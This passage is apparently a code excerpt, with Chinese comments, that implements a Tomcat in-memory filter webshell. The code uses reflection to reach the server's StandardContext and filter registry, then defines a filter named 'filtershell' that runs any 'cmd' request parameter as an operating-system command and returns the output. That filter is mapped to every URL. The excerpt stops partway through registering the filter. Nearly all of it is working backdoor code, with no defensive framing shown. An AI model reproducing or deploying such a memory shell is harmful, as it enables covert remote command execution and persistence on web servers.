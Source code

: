 ```bash
    // 获取ApplicationContextFacade的context属性，即ApplicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    // 获取ApplicationContext的context属性，即StandardContext
    Field standContextField = applicationContext.getClass().getDeclaredField("context");
    standContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standContextField.get(applicationContext);

    // 获取StandardContext的filterConfigs属性，即filterConfigs
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);

    // 创建my filter 需要先判断是否已经存在同名的filter
    String myFiltername = "filtershell";
    if(filterConfigs.get(myFiltername) == null) {
        Filter myFilter = new Filter() {

            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                Filter.super.init(filterConfig);
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                // shell
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if(req.getParameter("cmd") != null) {
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd", "/C", req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes, 0, len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };

        // 创建filterDef对象
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(myFilter);
        filterDef.setFilterName(myFiltername);
        filterDef.setFilterClass(myFilter.getClass().getName());

        // 将filterDef添加至filterDefs
        standardContext.addFilterDef(filterDef);

        // 创建filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(myFiltername);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
```